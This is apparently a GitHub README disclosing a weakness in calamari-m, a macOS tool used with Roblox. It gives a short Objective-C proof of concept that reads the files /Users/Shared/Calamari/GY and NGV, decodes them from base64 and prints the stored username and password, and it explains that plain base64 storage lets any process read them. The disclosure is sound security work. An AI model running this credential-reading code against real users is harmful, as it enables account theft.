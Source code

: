 # CASteal A.K.A. Pulling a fast one on calamari-m
## CASteal is a proof of concept for a security vulnerability in all versions of calamari-m for roblox
```mm
#import <Foundation/Foundation.h>
int main() {
    printf("Heres ur calamari account\nUsername: %s\nPassword: %s\n",[[[NSString alloc] initWithData:[[NSData alloc] initWithBase64EncodedString:[NSString stringWithContentsOfFile:@"/Users/Shared/Calamari/GY" encoding:NSUTF8StringEncoding error:nil] options:0] encoding:NSUTF8StringEncoding] UTF8String],[[[NSString alloc] initWithData:[[NSData alloc] initWithBase64EncodedString:[NSString stringWithContentsOfFile:@"/Users/Shared/Calamari/NGV" encoding:NSUTF8StringEncoding error:nil] options:0] encoding:NSUTF8StringEncoding] UTF8String]);
}
```
a minified version of the proof of concept is shown above.
how this works:
Calamari (for mac) account cridentials are stored for reuse by the ui and dylib to autheticate your user. 
their paths are /Users/Shared/Calamari/GY for username and /Users/Shared/Calamari/NGV for password. 
however they are only stored in Base64 encoding meaning they can be easily decoded and sent anywhere by a proccess. 

